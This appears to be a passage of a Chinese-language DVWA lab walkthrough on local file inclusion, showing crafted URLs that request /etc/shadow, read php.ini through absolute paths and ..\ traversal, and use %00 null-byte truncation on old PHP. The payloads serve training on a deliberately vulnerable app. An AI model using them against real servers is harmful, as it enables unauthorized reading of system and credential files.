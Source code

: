 
1.本地文件包含



构造url



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=/etc/shadow](http://www.example.com/)



[![1.png](http://image.3001.net/images/20161106/14784221284731.png!small)](http://image.3001.net/images/20161106/14784221284731.png)



报错，显示没有这个文件，说明不是服务器系统不是Linux，但同时暴露了服务器文件的绝对路径C:\\xampp\\htdocs。



构造url（绝对路径）



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=C:\\xampp\\htdocs\\dvwa\\php.ini](http://www.example.com/)



成功读取了服务器的php.ini文件



[![1.png](http://image.3001.net/images/20161106/1478422166374.png!small)](http://image.3001.net/images/20161106/1478422166374.png)



构造url（相对路径）



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=..\\..\\..\\..\\..\\..\\..\\..\\..\\xampp\\htdocs\\dvwa\\php.ini](http://www.example.com/)



加这么多..\\是为了保证到达服务器的C盘根目录，可以看到读取是成功的。



[![1.png](http://image.3001.net/images/20161106/14784222219706.png!small)](http://image.3001.net/images/20161106/14784222219706.png)



同时我们看到，配置文件中的Magic\_quote\_gpc选项为off。在php版本小于5.3.4的服务器中，当Magic\_quote\_gpc选项为off时，我们可以在文件名中使用%00进行截断，也就是说文件名中%00后的内容不会被识别，即下面两个url是完全等效的。



> A)[http://192.168.153.130/dvwa/vulnerabilities/fi/page=..\\..\\..\\..\\..\\..\\..\\..\\..\\xampp\\htdocs\\dvwa\\php.ini](http://www.example.com/)

> 

> B)[http://192.168.153.130/dvwa/vulnerabilities/fi/page=..\\..\\..\\..\\..\\..\\..\\..\\..\\xampp\\htdocs\\dvwa\\php.ini%0012.php](http://www.example.com/)

